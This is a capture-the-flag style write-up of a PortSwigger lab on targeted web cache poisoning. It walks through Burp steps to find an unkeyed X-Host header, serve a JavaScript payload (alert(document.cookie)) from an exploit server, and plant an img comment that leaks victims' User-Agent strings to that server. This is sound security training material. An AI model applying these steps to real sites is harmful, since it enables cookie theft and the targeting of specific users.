# Targeted web cache poisoning using an unknown header

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header) is vulnerable to web cache poisoning. A victim user will view any comments that you post.

## Reproduction

1. With Burp running, load the website's home page.
2. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. Find the `GET` request for the home page.
3. With the **Param Miner** extension enabled, right-click on the request and select **Guess headers**. After a while, **Param Miner** will report that there is a secret input in the form of the `X-Host` header.
4. Send the `GET` request to Burp Repeater and add a cache-buster query parameter, such as `?cb=1234`.
5. Add the `X-Host` header with an arbitrary hostname, such as `example.com`. The value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at `/resources/js/tracking.js`.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

7. In the body, enter the payload `alert(document.cookie)` and store the exploit.
8. Go back to the request in Burp Repeater and set the `X-Host` header with the exploit server url:

```text
X-Host: your-exploit-server-id.web-security-academy.net
```

9. Send the request until you see the exploit server URL reflected in the response and `X-Cache: hit` in the headers.
10. To simulate the victim, load the URL in your browser and make sure that the `alert()` fires.
11. The `Vary` header is used to specify that the `User-Agent` is part of the cache key. To target the victim, you need to find out their `User-Agent`.
12. On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example:

```text
<img src="https://exploit-0a21009d04709c47c10d2f60017e00dc.exploit-server.net/foo" />
```

13. Go to the blog page and double-check that your comment was successfully posted.
14. Go to the exploit server and click the button to open the **Access log**. Refresh the page every few seconds until you see requests made by a different user. This is the victim. Copy their `User-Agent` from the log.
15. Go back to your malicious request in Burp Repeater and paste the victim's `User-Agent` into the corresponding header. Remove the cache buster.
16. Keep sending the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.
17. Replay the request to keep the cache poisoned until the victim visits the site and the lab is solved.

## PoC

```{raw} html
<iframe width="560" height="315"
src="https://tube.spdns.org/videos/embed/21ece026-35dc-44b2-8e9b-73c6c8e96551"
title="Targeted web cache poisoning using an unknown header"
frameborder="0"
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture"
allowfullscreen
sandbox="allow-same-origin allow-scripts allow-popups"
style="width: 100%; height: 360px; border: none;"></iframe>
```

----

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser; and also needs to make sure that the response is served to the specific subset of users to which the intended victim belongs. 
